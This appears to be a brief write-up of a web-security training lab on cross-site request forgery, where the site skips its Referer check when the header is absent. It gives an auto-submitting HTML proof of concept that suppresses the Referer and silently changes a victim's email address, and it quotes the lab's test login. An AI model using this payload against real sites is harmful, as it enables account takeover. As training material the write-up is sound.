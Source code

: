 *This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter*

Used the following PoC to solve the lab, including a meta tag for `referrer`:
```html 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
	<head>
		<meta name="referrer" content="never">
	</head>
  <body>
    <form action="https://0a0e001004572bcd809ff9c2003c00ce.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hackerman&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
==